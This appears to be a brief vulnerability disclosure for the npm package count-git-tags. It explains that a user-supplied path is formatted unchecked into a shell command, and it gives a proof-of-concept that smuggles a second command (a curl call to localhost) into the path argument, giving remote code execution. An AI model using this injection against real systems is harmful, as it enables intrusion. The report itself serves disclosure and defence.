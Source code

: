 ## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-count-git-tags/blob/master/index.js#L27

## POC

```js
// poc.js
const countGitTags = require('count-git-tags');
 
countGitTags({ path: '.git;curl "http://localhost/RCE"' });
```

## Impact

`RCE` on `count-git-tags` via `insecure command formatting`
